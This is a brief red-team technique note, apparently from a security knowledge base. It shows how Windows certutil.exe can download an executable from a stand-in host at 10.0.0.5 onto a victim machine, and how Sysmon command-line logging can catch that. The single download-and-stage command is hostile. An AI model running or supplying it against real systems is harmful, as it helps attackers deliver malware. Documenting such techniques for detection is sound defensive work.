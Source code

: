 ```yaml
---
description: Downloading additional files to the victim system using native OS binary.
---
```


# Downloading File with Certutil

## Execution

```csharp
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

![](../.gitbook/assets/certutil-download.gif)

## Observations

Sysmon commandling logging is a good place to start for monitoring suspicious `certutil.exe` behaviour:

![](../.gitbook/assets/certutil-sysmon.png)

